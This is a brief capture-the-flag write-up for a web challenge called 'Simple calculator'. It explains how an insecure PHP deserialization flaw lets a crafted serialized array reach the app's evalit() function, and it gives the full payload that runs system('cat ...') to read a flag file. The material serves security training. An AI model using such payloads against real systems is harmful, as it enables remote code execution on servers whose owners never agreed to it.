 **Title:** Simple calculator    <br>
**Type:** Insecure deserialization <br>
**Desc:** Hai, cek web baru keren buatanku dan temukan hal menarik di root.    <br>
**Target:** http://103.185.38.238:17227/    <br>
**Tools:** https://www.base64decode.org/ & https://www.unserialize.com/
**Steps:**
  1. The app serialized the user input and encoded it to base64 as parameter.
  2. Enter an arbitrary inputs and copy the base64 encoded url and decode it, thus we get serialized array like this ``a:3:{i:0;s:3:"sum";i:1;s:1:"2";i:2;s:1:"2";}``
  3. Base on the source code, we can exploit the serialized input to evalit() function which returns the result of the eval of its arguments.
  4. Payload: ``a:2:{i:0;s:6:"evalit";i:1;s:37:"system('cat ../../../Heyheyhey.txt');";}`` > decode to base64 > paste as input on URL > RCE
